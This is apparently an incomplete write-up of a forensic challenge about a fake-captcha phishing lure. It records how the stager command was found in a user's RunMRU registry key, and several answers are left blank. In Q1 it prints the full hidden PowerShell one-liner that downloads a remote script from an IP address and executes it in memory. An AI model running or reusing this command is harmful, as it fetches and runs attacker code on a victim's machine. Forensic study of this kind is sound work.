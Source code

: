 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

Q2: At what time in UTC did the malicious payload execute?

A: 2024-09-23 05:07:45

In the Q1 screenshot.

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 

Q4: To which port did the reverse shell connect?

A: 

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 

Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: 
